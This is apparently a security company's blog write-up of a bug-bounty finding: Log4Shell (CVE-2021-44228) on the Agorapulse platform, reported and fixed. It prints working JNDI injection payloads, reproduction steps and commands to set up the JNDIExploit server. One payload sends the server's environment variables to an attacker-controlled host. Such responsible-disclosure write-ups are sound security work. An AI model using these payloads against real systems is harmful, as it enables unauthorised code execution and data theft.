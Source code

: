 ```yaml
---
layout: post
title:  "How did we Found Log4shell on Agorapulse"
author: snapsec
categories: [ log4shell,article]
image: assets/images/agora-log4j/0.png
---
```



Log4j is a logging framework for Java applications. It is a popular choice for developers looking for a simple and flexible logging solution. However, in the past Log4j has been found to be vulnerable to a number of security threats. The log4j library has recently been found to contain a serious vulnerability that went by the moniker of log4shell and gained widespread attention. This vulnerability allows unauthenticated remote code execution on vulnerable servers and may be exploited to expose sensitive information.

All Log4j versions from 2.0-beta9 through 2.12. 1, and 2.13. 0 through 2.14
Log4Shell vulnerability is a critical vulnerability, affecting Apache Log4j versions 2.0 to 2.14.1, [as identified by Chen Zhaojun of the Alibaba Cloud Security Team](https://www.bloomberg.com/news/articles/2021-12-13/how-apache-raced-to-fix-a-potentially-disastrous-software-flaw). NIST published a critical CVE in the National Vulnerability Database on December 10th, 2021, naming this [CVE-2021–44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). Apache Software Foundation assigned the maximum CVSS severity rating of 10.

This disclosure came storming into the security industry and havoc was created because all companies implementing this vulnerable framework were exploitable by this critical vulnerability. One can get an idea from the [analytics published](https://www.hackerone.com/vulnerability-management/log4shell-attack-evolution) by HackerOne which says, “Hackers have submitted over 2,000 Log4Shell reports to over 400 of our customers. The majority of reports were made in the first 14 days after the public disclosure of Log4 Shell". Almost the same number of reports were submitted on bugcrowd as well with over 300 reports submitted in a single day.



## What is agorapulse:

Agorapulse basically provides everything an organization could possibly need for social media marketing, monitoring, and management. Agora Pulse offers a comprehensive and compact platform for businesses to execute their marketing strategies while remaining under budget. The software is used to create and schedule social media content, engage audiences, listen for key terms, and analyze social media performance.


## How we found log4js on agorapulse:

It was the middle of the winter of 2021 when the news of log4j vulnerability broke out in the cyber security industry. And as the norm goes, it got all the security researchers on their heels. As the clock was ticking, our company decided to focus wholly on exploiting this vulnerability.

Our company had many targets to focus on and scan for this vulnerability. So the options were open. One of those available targets was agorapulse. We plunged into research mode and figured out how we were going to scan for this vulnerability. Due to the fact that the vulnerability could be present on any endpoint or any request, it was really hard to focus on one part of an application. So we decided to inject payloads all over the web application and wait for any pingbacks. To do that, we identified features and functionalities where we could use our payloads.

As the application was pretty vast with multiple features, we had to stay organized. We used a simple and comprehensive approach of pasting payloads everywhere in the application, and as said above to keep things organized, we used functionality-specific identifiers in the payloads.

For example

If we were using a payload in the profile-picture field we would use `${jndi:ldap://profilepic.<Your-Burp-Collab-URL>/a}` and if we were pasting a payload in the message box we used `${jndi:ldap://inbox.<Your-Burp-Collab-URL>/a}` and so on, It easily allowed us to identify the vulnerable request to trigger the vulnerability.


On the other hand, we also played it safe, using a payload that was not at all harmful to the client i.e did not result in any denial of service attack or executing any malicious commands inside the application. The purpose of the payload was just to give us a pingback so the place of vulnerability could be identified. So we devised the following safe payload to identify the DNS pingbacks : `${jndi:ldap://<Your-Burp-Collab-URL>/a}`.

So now the identification process began, and after a while, we received two pingbacks. One of the received was a false positive. But next up, we had a DNS pingback that identified the presence of Log4shell vulnerability.


## Summarizing the Steps

So, the steps to reproduce were as follows

- Start Burp and create a new burp collaborator Client
- Now Login to agorapulse and click on `Publish` to publish a new post.

![x](/blog/assets/images/agora-log4j/1.png)



- Now use your burp collaborator to make a new payload `${jndi:ldap://<Your-Burp-Collab-URL>/a}` and paste it in the Post Section.
- Now Select any profile from the left side and Publish the POST

![x](/blog/assets/images/agora-log4j/2.png)

- On going back to the burp collaborator client, you will see a Pingback.

![x](/blog/assets/images/agora-log4j/Three.png)


  
## Demonstration of Impact ( Remote Code Execution )


As mentioned in earlier sections, successful exploitation could lead to RCE. We refrained from taking any such action that could lead to any kind of disruption in services. So, we decided to prove the impact by extracting the global PATH variable to prove the real impact of the vulnerability, and we needed to set up a JNDI server for that. So we quickly set up an Amazon EC2 and set up a JNDI server using the following approach.

- SSH to your Server


```console
ssh user@<your-ip>
```

- Download and Install JNDI Server

```console
wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
```
-Run the Exploit and you should see the following output on screen

```console
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <your-ip> -p 8888
```

After the following commands, we had our JDNI server running on our `ServerIP:8888`

As we went back to Agorapulse and made another post with this Payload : `${jndi:ldap://[ServerIp]:1389/${env:PATH}`

  
we were able just able to extract the environment variables of the server.


![x](/blog/assets/images/agora-log4j/4.png)
  

We stopped right after extracting the path variables of the vulnerable server just to keep the exploitation ethical. Hence, no sensitive, confidential, or any other information related to their users was extracted.


## Response of Agora Team

After submitting the report to the agora team, we got their first response within a day. They were responsive and concerned with the security of their online assets. They fixed the bug on the same day and rewarded our finding.

After their fix was implemented, the team requested a re-check on the vulnerability, and we tried various payloads and bypasses to confirm if the fix was working well. But we were unable to bypass the fix, and it was working fine, so we confirmed the fix.

  
  
> ⚠️ Agorapulse was one of the 14 companies Snapsec helped to detect and fix Log4shell on the day it was publicly disclosed. 

## About us

Snapsec is a Cyber security service company for rapidly growing SaaS businesses, we help you with an enhanced level of security to defend your critical networks and data at affordable charges for our services.

Please feel free to contact us at support@snapsec.com if you're seeking a company that appreciates your security and guarantees that you are completely protected from online security risks. 
 
